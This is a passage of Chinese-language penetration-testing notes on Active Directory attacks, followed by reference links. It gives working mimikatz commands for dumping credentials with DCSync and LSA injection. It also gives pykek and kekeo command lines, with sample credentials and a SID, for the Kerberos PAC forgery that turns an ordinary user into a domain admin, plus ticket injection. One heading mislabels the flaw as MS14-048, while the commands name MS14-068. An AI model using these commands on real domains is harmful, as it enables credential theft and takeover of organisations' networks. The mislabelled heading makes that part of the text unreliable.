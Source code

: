 			DCSync 是何如工作的：
				a. 使用指定的域名称发现域控制器。
				b. 请求域控制器通过 DSGetNCChanges 复制用户凭据利用目录复制服务DRS远程协议
				DCSync 选项：
					/user - 要拉取数据的用户的 id 或 SID
					/domain可选的 Active Directory 域的 FQDN 域名，Mimikatz 会发现域中的一个 DC 并去连接。如果不提供该参数，Mimikatz 会默认设置为当前域。
					/dc可选的指定你想要使用 DCSync 连接并收集数据的域控制器。
					另外还有一个/guid参数。
					DCSync 命令行示例：
					取 demo.local域中的 krbtgt / testwin7 / administrator 用户帐户的密码数据：
					Mimikatz "privilege::debug" "lsadump::dcsync /domain:demo.local /user:testwin7" exit
						
10.MS14-048 (限制条件:打了补丁或者域中有Win2012/2012R2 域控)
	允许域内任何一个普通用户，将自己提升至域管权限。
	作为普通用户向域控请求一个没有PAC的Kerberos TGT认证的票据，域控会返回一个TGT(不包含PAC，PAC通常包含有用户组中的成员关系)
	生成一个伪造的PAC，因为没有密钥，所以生成的PAC"被标记"有MD5算法，而不是带有域用户密码数据的HMAC_MD5类型。
	把伪造的PAC结合上TGT构造认证数据，作为TGS服务的一部分发送到域控。
	域控会混淆构造的数据，所以直接丢弃之前用户发送没带有PAC的TGT，然后新构造一个TGT并用自己的认证数据插入到伪造的PAC当中，再把新TGT发送给用户
	这样带有伪造PAC的TGT就能使用户成为有漏洞域控上的域管理员。
	1. mimikatz从域控上面抓取到所有账户信息
		mimikatz # log
		Using 'mimikatz.log' for logfile : OK
		mimikatz # privilege::debug
		Privilege '20' OK
		mimikatz # lsadump::lsa /inject
		......
	2. https://github.com/bidord/pykek
		C:\pykek-master>python ms14-068.py -u testwin7@demo.local -s S-1-5-21-1239069908-882060383-2558203358-1130 -d owa2010dc.demo.local  -p 1qaz$RFV --rc4 6df9f68e4b0656fa9ffd91d250506f8f
		[+] Creating ccache file 'TGT_testwin7@demo.local.ccache'... Done!]
	3. mimikatz # kerberos::ptc TGT_testwin7@demo.local.ccache (利用mimikatz注入高权限TGT的缓存证书)
	
	列举缓存证书的命令klist
	
	
	或者使用 kekeo
	kerberos::purge or klist purge(为了让我们自己生成的票据生效，需要我们先用mimikatz将内存中的票据清空)
	kekeo.exe # exploit::ms14068 /domain:demo.local /user:testwin7 /password:1qaz$RFV /sid:S-1-5-21-1239069908-882060383-2558203358 /rid:1130 /kdc:owa2010dc.demo.local /ptt (接着使用域、普通域用户名和密码生成票据)
	http://www.mottoin.com/95877.html
	
	
	
	參考:

        Attack Methods for Gaining Domain Admin Rights in Active Directory
            http://adsecurity.org/?p=2362 (国内关于域的文章基本来自于这里 還有 http://www.harmj0y.net)
        一种深度隐蔽的后门方式(二)
            https://www.anquanke.com/post/id/93542
        Mimikatz小实验:黄金票据+dcsync
            http://www.freebuf.com/sectool/112594.html
        域渗透之hash与票据
            http://mp.weixin.qq.com/s/ENStRpYspx5W974BKPzZtA
        域渗透——利用SYSVOL还原组策略中保存的密码
            https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8SYSVOL%E8%BF%98%E5%8E%9F%E7%BB%84%E7%AD%96%E7%95%A5%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/
        如何巧妙的从ntds.dit中提取Hash和域信息
            http://www.freebuf.com/articles/system/151463.html
        从活动目录中获取域管理员权限的6种方法
            http://www.4hou.com/technology/4256.html
        Kerberoasting - Part 3
            https://room362.com/post/2016/kerberoast-pt3/
        kekeo ticket 注入
            https://www.anquanke.com/post/id/92484
        kerberoasting-without-mimikatz
            https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/